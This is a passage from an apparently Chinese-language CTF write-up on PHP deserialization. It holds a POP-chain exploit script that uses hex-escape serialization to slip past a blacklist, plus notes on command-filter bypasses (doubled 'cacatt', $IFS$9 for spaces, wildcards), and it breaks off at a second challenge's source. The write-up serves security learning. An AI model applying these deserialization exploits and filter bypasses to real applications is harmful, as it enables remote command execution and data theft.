 ```php
}
$a=new unser();
$a->obj=new ZY();
$a->obj->obj=new GGbond();
$a->obj->obj->candy=new ZY();
$a->obj->obj->candy->flag=new ZYPC();
echo preg_replace('/s:4:"flag"/','S:4:"fla\\\67"',serialize($a));
```

### **思路：**

危险函数在ZYPC的__invoke()函数中，构造pop链执行危险函数。用双写绕过关键字替换。直接写入无后缀文件绕过点号。用十六进制绕过黑名单。

---

pop链：

```
ZYPC {__invoke()} <- ZY {__get()} <-GGbond {__toString()} <-ZY{Welcome()} <- unser{ __destruct()}
```



if(unserialize($this->auth)=="waterbucket")：

echo serialize("waterbucket");

输出waterbucket的序列化字符


implode(array($this->obj,"⭐","⭐","⭐","⭐","⭐"));：

在PHP中，`implode` 函数用于将数组元素连接成一个字符串。可以触发__tostring()。


读flag命令：

`cacatt`

正则将cat和tee替换为空，剩下的仍能拼接为cat和tee。

`$IFS$9`绕过空格。

*为通配符，绕过flag。



十六进制绕过：

讲字符串的s改为大写S，然后将需要代替的字符改为\xx(十六进制)的格式。这里直接使用了正则替换达到目的。


执行命令后直接下载/a文件即可。



## die 反序列化

```php
<?php

highlight_file(__FILE__);
class Start{
    public $barking;
    public function __construct(){
        $this->barking = new Flag;
    }
    public function __toString(){
            return $this->barking->dosomething();
    }
}

class CTF{ 
    public $part1;
    public $part2;
```